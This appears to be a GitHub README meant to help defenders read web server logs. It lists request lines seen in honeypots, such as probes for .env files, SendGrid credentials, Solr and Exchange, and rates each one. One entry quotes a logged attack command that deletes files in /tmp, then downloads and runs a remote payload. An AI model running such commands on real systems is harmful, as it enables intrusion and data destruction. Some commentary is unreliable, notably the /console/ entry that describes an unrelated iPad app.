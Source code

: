 # webtraffic-reference
This page is dedicated to assisting the community with interpreting web logs

# disclaimer

This page is for informational and educational purposes **only**. Interpretation of data is highly specific to individual organzations and their specific applications. Blocking traffic or declaring an incident should occur only after a proper investigation and vetting of data relevant to the specific circumstances is performed. 

# data presentation

The data here is presented with a "log entry" in bold (e.g. **GET /robots.txt**) followed by commentary underneath. Again, this is for informational purposes only. 
_________________

# Reference

**\x16\x03\x01**

Likely: Suspicious

The string "\x16\x03\x01" is a representation of binary data in hexadecimal format and is commonly associated with the Transport Layer Security (TLS) protocol. It is often seen in logs related to web servers and security incidents. 
The string "\x16\x03\x01" is just the start of a TLS 1.0 handshake, i.e. content type (0x16 = handshake) followed by TLS version.
The presence of this string in web server logs may indicate an attempt to exploit a vulnerability in the TLS protocol or to perform a man-in-the-middle attack.
_________________
**GET /robots.txt HTTP/1.1**

A robots.txt file is a text file that is used to instruct web robots (also known as web crawlers or spiders) which pages or sections of a website they are allowed to access and crawl. This is likely not an indicator of attack by itself. 
_________________
**GET /favicon.ico HTTP/1.1**

A favicon.ico is a small icon associated with a particular website or web page that is displayed in the browser's address bar, bookmarks, and tabs. 
It is also known as a shortcut icon, website icon, tab icon, URL icon, or bookmark icon2. A get request for favicon.ico is likely not an indicator of attack by itself. 
_________________
**GET /sendgrid.env HTTP/1.1**

Likely: Suspicious

The presence of this request in the log files likely indicates and attempt to GET Sendgrid API Credentials. A request of this nature should generally be considered suspicious unless it is part of some authorized activity. 
https://stackoverflow.com/questions/71330025/how-do-i-implement-sendgrid-env-file
_________________
**GET /actuator/gateway/routes HTTP/1.1**

Likely: Suspicious

This request is associated with Spring.io Actuator API and is consistent with a request to GET routes. The documentation for the Actualor API shows this URL described as "To retrieve the routes defined in the gateway, make a GET request to /actuator/gateway/routes." An organization may consider this recon activity or otherwise suspicious. Our review of this in most circumstances is that this is suspicious. 
_________________
**GET /.env**

This is consistent with an attempt to get environmental variables from a server. Likely suspicious and abnormal. 
_________________
**GET /_ignition/execute-solution HTTP/1.1**

Likely: Suspicious

This is a HTTP request that is related to the Ignition package in Laravel, a popular PHP web application framework. This is possibly an attacker attempting to exploit Ignition. 
https://stackoverflow.com/questions/58249085/how-to-solve-facade-ignition-http-middleware-ignitionenabled
_________________
**GET /.well-known/security.txt HTTP/1.1**

The "security.txt" file is typically placed in the ".well-known" directory of a website, which is a base directory for "well known" locations defined in RFC 5785.  A well-known URI is a URI [RFC3986] whose path component begins with
the characters "/.well-known/", and whose scheme is "HTTP", "HTTPS", or another scheme that has explicitly been specified to use well-known URIs. The "security.txt" file is designed to be machine- and human-readable, and it can be used by security researchers to easily report security vulnerabilities to website owners. In summary, "GET /.well-known/security.txt" is a HTTP request for a file named "security.txt" that is used to define security policies for a website. The file is typically placed in the ".well-known" directory of a website and contains information about a company's security policy, including a vulnerability disclosure policy, a security point of contact, and additional data.
https://datatracker.ietf.org/doc/html/rfc5785#section-3
_________________
**GET /console/ HTTP/1.1**

Likely: Suspicious

"GET /console/" is likely a HTTP request for a console or terminal application, like several console or terminal applications, including Get Console, a powerful and complete terminal app that provides physical serial console access to network and other equipment as well as SSHv2, Telnet, and other protocols. Get Console is the first and only Apple approved iPad app that allows for physical serial connectivity in a terminal app - it also does Telnet, SSH, converts SecureCRT and PuTTY files and is fully scriptable. 
https://www.youtube.com/watch?v=mll_SKgSbok
https://apps.apple.com/us/app/get-console/id412067943
_________________
**GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1**

Likely: Suspicious

"GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1" is a HTTP request that includes a parameter for starting a debugging session with the PHPStorm IDE. The "XDEBUG_SESSION_START" parameter is used to initiate a debugging session with the Xdebug extension for PHP, which is commonly used for debugging PHP applications. This request can also be exploited by attackers to gain unauthorized access to a server or application if the server is not properly secured or if the Xdebug extension is not configured correctly. 
https://laracasts.com/series/phpstorm-for-laravel-developers
https://www.jetbrains.com/phpstorm/features/ 
_________________
**GET /druid/index.html**

It is possible that the request is related to accessing the index.html page of the Apache Druid web interface.Apache Druid is an open-source distributed data store designed for real-time analytics. It provides a web interface that allows users to interact with and query the data stored in Druid clusters. The index.html page is the entry point for accessing the web interface.
https://trino.io/episodes/16.html
_________________
**GET /solr/admin/info/system?wt=json HTTP/1.1**

Likely: Suspicious

This request is associated with an attempt to retrieve system information from a Solr instance. The "/solr/admin/info/system?wt=json" endpoint is a well-known exploit that can be used to retrieve system information from a Solr instance. 
https://sitecore.stackexchange.com/questions/29494/solr-suspicious-behavior 
_________________
**GET /owa/auth/x.js HTTP/1.1**

Likely: Suspicious

Recon attempts to identify Exchange Servers related to Hafnium Attack. 
https://learn.microsoft.com/en-us/answers/questions/571434/bad-actors-targeted-exchange-owa-auth-x-js
_________________
**GET /mPlayer HTTP/1.1**

This appears to be related to mPlayer software associated with Linux. The presence of this request in honeypots is a curiousity. 
_________________
**GET /download/file.ext HTTP/1.1**

Likely: Suspicious

This request shows up in recon attempts and can often be seen alongside requests for /mPlayer. There is evidence to support that this is looking for misconfigured servers where a default reference to file.ext has been left in the configuration.
_________________
**GET /portal/redlion HTTP/1.1**

Likely: Suspicious

Recon attempts looking for RedLion automation/manufacturing software systems. 
https://www.redlion.net/portfolio/secure-remote-access-platform
_________________
GET /shell?cd+/tmp;rm+-rf+*;wget+ _<IP ADDRESS>_/jaws;sh+/tmp/jaws

Likely: Hostile

This request is attempting to utilize Shell to download and execute remote code from an IP address. In cases such as this, a secured server would respond with a 404 Not Found. A 404 not found response means that nothing has happened outside of a request to execute on this.
_________________
**SSTP_DUPLEX_POST /sra_{BA195980-CD49-458b-9E23-C84EE0ADCD75}/ HTTP/1.1**

This is a Microsoft SSTP Point to Point traffic request over HTTPS, consistent with RFC 1945, RFC 2616 and RFC 2818. 

Example redacted log:
<155>Aug 11 15:00:00 <REDACTED> apache-access <REDACTED IP> - - [TIMESTAMP] "SSTP_DUPLEX_POST /sra_{BA195980-CD49-458b-9E23-C84EE0ADCD75}/ HTTP/1.1" 400 2369 "-" "-"

